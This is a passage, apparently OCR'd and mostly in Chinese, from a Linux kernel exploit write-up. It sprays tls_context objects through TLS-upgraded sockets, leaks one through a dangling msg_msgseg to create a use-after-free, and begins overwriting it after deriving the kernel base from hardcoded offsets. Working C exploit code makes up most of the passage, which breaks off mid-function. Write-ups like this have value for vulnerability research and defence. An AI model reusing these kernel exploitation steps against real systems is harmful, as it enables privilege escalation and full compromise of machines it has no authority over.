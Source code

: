 ## 重新分配为tls\_context类型

```plain
socket(AF_INET, SOCK_STREAM, 0);
```

为了在内核堆中喷出tls\_context对象，从而覆盖我们的悬空的msg\_msgseg，我们像上面一样预先准备了一堆套接字，

```plain
struct sockaddr_in server;
inet_aton("127.0.0.1", &server.sin_addr);
server.sin_port = htons(9999);
server.sin_family = AF_INET;
if (connect(fd, (struct sockaddr*)&server, sizeof(server))) {
    perror("connect");
    return ERR;
}
tls_fds[i] = fd;
We connect each new socket to a local server.

int fd = tls_fds[i];
// struct tls_context allocation in kmalloc-512
if (setsockopt(fd, SOL_TCP, TCP_ULP, "tls", sizeof("tls"))) {
    perror("setsockopt(fd, SOL_TCP, TCP_ULP, \"tls\"");
    printf("fd: %d\n", fd);
    return ERR_UNFIN(i);
};
```

然后，在准备好的时候（在所有前面的利用阶段之后），我们升级这些已连接的套接字，并在此过程中为每个套接字分配一个`tls_context`

## Leaking tls\_context

```plain
static inline err_t leak_tls_contexts(struct manager *mgr)
{
    char *leak = (char *)mgr->leak;
    uint64_t *store = mgr->msq_ids;
    IF_ERR_RET(leak_msg(DEAD_LIST_PATTERN, store, TOTAL_MSGS, leak, MSG_SIZE))
    print_leak(leak);
    return SUCC;
}
```

现在，我们的一个消息包含了`tls_context`对象，我们可以尝试在一些消息中找到`DEAD_LIST_PATTERN`，该消息的ID存储在**mgr->msq\_ids**中，其内容将被输出到**mgr->leak**，重要的是，接收消息将释放它，因此，现在我们有了一个`tls_context` `Use-After-Free`（哈哈），

## 覆盖tls\_context对象

```plain
static inline err_t prepare_tls_overwrite(struct manager *mgr)
{
#define KHEAP_PTR_OFF (200)
#define RO_PTR_OFF (224)
#define LIST_OFF (0x98)
#define BASE_OFF (0x180b660)
#define MSGSEG_OFF (4000)    
    /* Extract pointers and wipe the data, ready for spray. */
    char *leak = (char *)mgr->leak + MSGSEG_OFF;
    uint64_t tls_context = *(uint64_t*)&leak[KHEAP_PTR_OFF] - LIST_OFF;
    uint64_t kernel_base = *(uint64_t*)&leak[RO_PTR_OFF] - BASE_OFF;
    printf("[+] Current tls_context @ %lx\n", tls_context);
    printf("[+] Kernel base @ %lx\n", kernel_base);
    memset((char *)mgr->leak, 0, MSG_SIZE);

#define GETSOCKOPT_OFF (40)
```